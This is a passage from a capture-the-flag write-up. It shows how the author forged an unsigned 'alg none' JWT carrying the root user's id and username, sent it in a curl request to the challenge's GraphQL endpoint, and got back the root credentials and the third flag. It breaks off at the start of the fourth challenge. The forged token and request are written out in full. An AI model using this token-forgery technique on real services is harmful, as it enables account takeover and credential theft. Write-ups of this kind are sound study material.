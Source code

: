 `
{
  "id": "X9L7A2Q",
  "username": "john.d"
}
`

Thus if I had the userid and the username of the root user (which I did) I could create a JWT Token for him and query the user details.
Thus I replaced the user id and the user name with that of the root user and encoded it into base 64 and concatenated the Header and the Payload with `.`

`
eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJpZCI6ICJSMlc4SzVaIiwgInVzZXJuYW1lIjogInIwMHR1czNyIn0.`

This was the resultant root token which I later used to query the root user details.

`
curl -s -X POST "http://15.206.47.5:9090/graphql" \
-H "Content-Type: application/json" \
-H "Authorization: Bearer eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJpZCI6ICJSMlc4SzVaIiwgInVzZXJuYW1lIjogInIwMHR1czNyIn0." \
-d '{"query":"{ userDetail(id:\"R2W8K5Z\") { first_name last_name email flag notes credentials { username password } } }"}'
`

This Yielded the following output:

`
{"data":{"userDetail":{"credentials":{"password":"l3t%27s%20go%20guys$25","username":"r00tus3r"},"email":"alice.wright@example.com","first_name":"Alice","flag":"CloudSEK{Flag_3_gr4phq1_!$_fun}","last_name":"Wright","notes":["privileged account","monitoring enabled"]}}}`

![image.png](./assets/images/99bb92ba-edde-4c91-99a3-293960102531.png)


Thus providing the FLAG3 of the CTF.
  


```python
# ByPassing Authentication - Flag4
```

Challenge Description:

NULL

Solution Path:

Step 1: Analyzing Challenge 3 Output

![image.png](./assets/images/bd4aeee1-5fbe-4735-8864-d135bffc16c7.png)
